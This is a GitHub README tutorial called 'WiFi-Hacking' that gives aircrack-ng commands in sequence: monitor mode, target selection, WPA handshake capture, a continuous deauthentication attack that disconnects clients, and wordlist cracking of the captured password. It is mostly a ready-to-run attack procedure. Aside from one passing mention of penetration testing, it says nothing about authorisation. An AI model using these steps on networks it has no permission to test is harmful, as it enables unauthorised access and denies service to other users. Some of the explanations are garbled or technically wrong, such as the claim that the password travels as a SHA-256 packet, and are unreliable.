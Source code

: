 <h1 align="center">Welcome to WiFi-Hacking 👋</h1>
<p>
  <img src="https://img.shields.io/badge/version-0.1-blue.svg?cacheSeconds=2592000" />
</p>

> 
### 🏠 [Homepage](https://github.com/AnandKatariya/WiFi-Hacking)
## Check
```sh
iwconfig
```
Check weather the mode is on moniter mode or managed mode.
## Clear all stuff

```sh
airmon-ng check kill
```
check and kill off processes that might interfere with the aircrack-ng suite.
## Moniter mode

```sh
airmon-ng start wlan0
```
Airmon-ng is used to read all the packets of data even if they are not sent to us. It controls the traffic received only on the wired/wireless networks. Wi-Fi adapters are mainly used for connecting your device to the internet. Most laptops, tablets, and mobile phones have an inbuild Wi-Fi card.
## Search the target

```sh
airodump-ng wlan0mon
```
After doing this you will able to see a interface that will show you wifi network around you which are available and with this you will able to see many other columns such as CH (channel), bssid and many more.
## Select the target

```sh
airodump-ng wlan0mon -c <ch> --bssid <target_mac>
```
A wireless penetration test will examine your network using a methodology similar to the standard wired penetration test. However, they will focus on the wireless as the gateway to exploit your vulnerabilities. Thus this will select your target.
## Save handshake

```sh
airodump-ng wlan0mon -c <ch> --bssid <target_mac> -w target_handshake
```
-w will save save you target handshake whenever it will capture. It will save in .cap name file. Now after this we want to disconnect someone who is connected to target's device. So we need to perform the aireplay attack so we will able to disconnect the any device which is connect to target's device  
<br>
## Open new terminal
<br>
## Disconnecting the device

```sh
aireplay-ng --deauth 0 -a <target_mac> wlan0mon
```
After doing this any one of the device will be disconnect and will able to try auto reconnect to the target (when this process is been happeing the waay is when any device is disconnect it will try to auto reconnect it and when it will try the password will transfer in terms of packet and the packet will be
SHA-256 bit algorithm) when it it auto reconnect the packet will be capture and the 4-way handshake will be performed.
## Cracking the password

```sh
aircrack-ng -w wordlist.txt handshake.cap
```
This process will help you to crack the password of the file but all you need is the gigantic wordlist, which should contain lakhs of similar passwaord and Hence it will able to crack the password.
## Author

👤 **Anand Katariya**

* Github: [@AnandKatariya](https://github.com/AnandKatariya)

## 🤝 Contributing

Contributions, issues and feature requests are welcome!<br />Feel free to check [issues page](https://github.com/AnandKatariya/WiFi-Hacking/issues).

## Show your support

Give a ⭐️ if this project helped you!
